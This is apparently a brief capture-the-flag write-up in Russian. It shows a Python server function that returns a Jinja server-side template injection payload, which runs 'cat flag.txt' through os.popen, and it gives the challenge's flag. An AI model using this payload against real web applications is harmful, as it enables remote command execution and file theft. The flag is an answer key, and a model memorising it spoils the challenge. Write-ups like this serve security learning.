 # oxxxymiron writeup

Поднимем свой сервер, который будет возвращать SSTI строку.

```python
def index():
    return '{{request.application.__globals__.__builtins__.__import__("os").popen("cat\\x20flag.txt").read()}}'
```

Прочитаем флаг. Пример сервера в [solve.py](solve.py)

Флаг: `li2CTF{I_r3Pe4t_My5elF_wH3n_4nDEr_Stre$$}`

